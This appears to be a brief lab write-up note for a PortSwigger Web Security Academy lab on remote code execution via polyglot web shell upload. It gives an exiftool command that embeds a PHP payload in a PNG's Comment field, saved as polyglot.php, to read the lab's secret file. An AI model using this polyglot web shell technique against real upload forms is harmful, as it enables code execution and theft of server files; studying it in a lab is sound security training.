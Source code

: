 https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload
 We could use exiftool to rewrite the binary file, the comment flags in this case writes a new value 
 ```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" file.png -o polyglot.php
 ```
 https://exiftool.org/exiftool_pod.html#:~:text=comment